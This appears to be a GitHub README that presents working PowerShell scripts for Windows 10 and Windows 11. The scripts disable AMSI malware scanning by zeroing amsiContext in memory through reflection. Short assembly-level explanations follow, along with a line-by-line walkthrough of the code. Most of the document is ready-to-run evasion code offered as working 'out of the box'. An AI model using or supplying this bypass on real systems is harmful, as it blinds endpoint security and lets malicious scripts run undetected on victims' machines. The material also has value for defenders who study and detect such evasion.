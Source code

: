 # AMSI-Bypass-Win10-11
Simple script to bypass AMSI on Win 10 and Win 11 by exploiting AmsiOpenSession.
While the very well known AmsiScanBuffer in memory patching technique takes some tweeking and obfuscation to work, this method (at time of writing) works straight out of the box.
Lots of people to thank for all the tech info so a full write up with screenshots\references\blog posts is in the works.

<b>Win 10 Version</b>

```
$a=[Ref].Assembly.GetTypes();
Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};
$d=$c.GetFields(‘NonPublic,Static’);
Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};
$g=$f.GetValue($null);
[IntPtr]$ptr=$g;
[Int32[]]$buf = @(0);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```      

<b>Win 11 Version</b>
```
$a=[Ref].Assembly.GetTypes();
Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};
$d=$c.GetFields(‘NonPublic,Static’);
Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};
$g=$f.GetValue($null);
$buf = New-Object byte[](8);
$ptr= [System.IntPtr]::Add([System.IntPtr]$g, 0x8);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```
# Whats actually happening here? (Very Short Win10 Version)
AmsioOpenSession compares the first 4 bytes of amsiContext to the HEX value equivalent of 'AMSI'. If this operation fails it jumps to the code block 
```mov eax, 80070057h``` 
\
80070057h = E_INVALIDARG
\
This bypasses all scans while that PowerShell process is running.

## AmsiOpenSession Struct
<img width="438" alt="struct" src="https://github.com/user-attachments/assets/7a7f2def-7dce-4b36-b376-7a15b2e87ede">



## Error table

<img width="453" alt="3" src="https://github.com/user-attachments/assets/87e0771c-c506-4fae-8968-2f92a74d67bc">



## Win 10

<img width="412" alt="openSession2" src="https://github.com/user-attachments/assets/dd5b8169-d449-42eb-b28e-c9a7680a7513">


## Win 11

<img width="365" alt="cutterWin10" src="https://github.com/user-attachments/assets/1df3e389-0ca7-48e2-af3f-3c60980290cb">


# Whats actually happening here? (Win 11 short Version)

AmsiOpenSession takes amsiContext as an input, this is stored in RCX. This script gets a pointer to the address of amsiContext by drilling down through assemblies associated with the PowerShell session, overwrites the memory location that the '$ptr' points to (amsiContext 0x0 + 8 bytes) with 8 bytes of zeros. The pointer corresponds with the QWORD contents of (RCX + 8 bytes) in AmsiOpenSession, if RCX + 8 successfully compares to zero it will cause EAX to be set to 0x80070057, which is an E_INVALIDARG error. This will bypass AMSI for the remainder of the PowerShell session.

 
## Explaination of Code


Retrieve all the types from the currently executing assembly
```
$a=[Ref].Assembly.GetTypes();
```
(Look for amsiUtils) Iterate over each type in $a. If the type's name matches the pattern *iUtils assign that type to the variable $c
```
Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};
```
Get all non-public static fields of the type stored in $c and assigns them to $d    
```
$d=$c.GetFields(‘NonPublic,Static’);
```
(Look for amsiContext) Iterate over each field in $d. If the field's name matches the pattern *Context assign that field to the variable $f
```
Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};
```
Retrieves the value of the static field stored in $f     
```
$g=$f.GetValue($null);
```
Cast the value of $g to an IntPtr type and assign it to $ptr 
```
[IntPtr]$ptr=$g;
```
Create an array of integers with a single element 0 and assigns it to $buf 
 ```
[Int32[]]$buf = @(0);
```
Copy the value 0 from the array $buf to the memory location pointed to by $ptr  
```
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```      


